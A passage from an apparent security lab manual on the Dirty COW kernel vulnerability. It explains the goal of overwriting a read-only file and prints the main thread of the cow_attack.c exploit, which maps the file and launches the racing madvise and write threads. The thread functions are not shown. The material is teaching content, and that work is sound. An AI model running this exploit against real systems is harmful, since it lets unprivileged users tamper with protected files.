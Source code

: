 From the above experiment, we can see that if we try to write to this file as a 
normal user, we will fail, because the file is only readable to normal users. 
However, because of the Dirty COW vulnerability in the system, we can
find a way to write to this file. Our objective is to replace the pattern
\texttt{"222222"} with \texttt{"******"}. 



\subsection{Set Up the Memory Mapping Thread}


You can download the program \texttt{cow\_attack.c} from the
website of the lab. The program has three threads: the main thread, the write thread,
and the madvise thread. 
The main thread maps \texttt{/zzz} to memory, finds where the pattern
\texttt{"222222"} is, and then creates two threads to exploit the 
Dirty COW race condition vulnerability in the OS kernel. 

\begin{lstlisting}[caption={The main thread},
                   label=cow:code:cow_attack:main]
/* cow_attack.c  (the main thread) */

#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "222222");                         (*@\ding{192}@*)

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); (*@\ding{193}@*)
  pthread_create(&pth2, NULL, writeThread, position);             (*@\ding{194}@*)

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

\end{lstlisting}



